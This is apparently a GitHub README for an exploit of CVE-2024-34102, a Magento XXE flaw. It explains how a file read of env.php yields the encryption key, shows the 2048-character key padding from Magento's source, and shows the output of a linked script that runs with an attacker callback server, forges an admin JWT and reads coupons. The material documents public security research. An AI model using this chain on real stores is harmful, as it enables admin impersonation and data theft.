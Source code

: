 # CVE-2024-34102: Magento admin user impersonation via arbritrary file read

## Information  

**Vendor Description**: Adobe Commerce and Magento Open Source are affected by an Improper Restriction of XML External Entity Reference ('XXE') vulnerability that could result in arbitrary code execution. An attacker could exploit this vulnerability by sending a crafted XML document that references external entities. Exploitation of this issue does not require user interaction. 
**Versions Affected**: Adobe Commerce and Magento Open Source 2.4.7, 2.4.6-p5, 2.4.5-p7, 2.4.4-p8 and earlier.   
**Researcher:** [Sergey Temnikov](https://github.com/spacewasp)   
**Write-up Link:** Coming soon 
**NIST CVE Link:** https://www.cve.org/CVERecord?id=CVE-2024-34102  


The security flaw arises from improperly handling nested deserialization in Adobe Commerce and Magento. This vulnerability allows attackers to exploit XML External Entities (XXE) during deserialization. In essence, attackers can craft malicious JSON payloads that instantiate objects with unintended properties or behaviors when deserialized by the application ([source](https://github.com/spacewasp/public_docs/blob/main/CVE-2024-34102.md)).

In his write-up, [Sergey Temnikov](https://github.com/spacewasp) suggested that this vulnerability could be chained with CVE-2024-2961 to achieve remote code execution. He also proposed using this vulnerability to read the `env.php` file and obtain the encryption key, which would allow generating a JWT token to impersonate an admin user.

However, the available exploits and write-ups we have found only cover the basic arbitrary file read vector. Therefore, we decided to go beyond that and demonstrate how to use the CVE-2024-34102 to impersonate an admin user.

### Token generation

Plenty of write-ups about the vulnerability itself are available, so we will skip the details and focus on what those write-ups lack: token generation.

After reading the `env.php` file and obtaining the encryption `'crypt' => [ 'key' => ...`, we immediately tried to generate a token, but it didn't work. The token was invalid. That's because, in Magento, the key must be 2048 characters long; if it is not, padding will be applied. 

```php
   public function __construct(DeploymentConfig $deploymentConfig, JwkFactory $jwkFactory)
    {
        $this->keys = preg_split('/\s+/s', trim((string)$deploymentConfig->get('crypt/key')));
        //Making sure keys are large enough.
        foreach ($this->keys as &$key) {
            $key = str_pad($key, 2048, '&', STR_PAD_BOTH);
        }
        $this->jwkFactory = $jwkFactory;
    }
```
https://github.com/magento/magento2/blob/11e7d89380c3ef9b9bd18c1d8b7815b0fad96e34/app/code/Magento/JwtUserToken/Model/SecretBasedJwksFactory.php#L39-L41

### Exploit

We have created a script that reads the `env.php` file, extracts the encryption key, and generates a JWT token to impersonate an admin user. The script is available [here](./exploit.rb).

### Usage

```bash
$ ruby exploit.rb http://localhost http://host.docker.internal:8000
Starting web server...
Generated JWT: eyJraWQiOiIxIiwiYWxnIjoiSFMyNTYifQ.eyJ1aWQiOjIsInV0eXBpZCI6MiwiaWF0IjoxN....
Sending request with JWT to coupons endpoint
Available coupons:
{
  "items": [
    {
      "coupon_id": 2,
      "rule_id": 2,
      "code": "100OFF",
      "usage_limit": 1000,
      "usage_per_customer": 1000,
      "times_used": 0,
      "is_primary": true,
      "created_at": "2024-07-21 18:14:43",
      "type": 0
    }
  ],
  "search_criteria": {
    "filter_groups": [

    ]
  },
  "total_count": 1
}
Exploit completed
```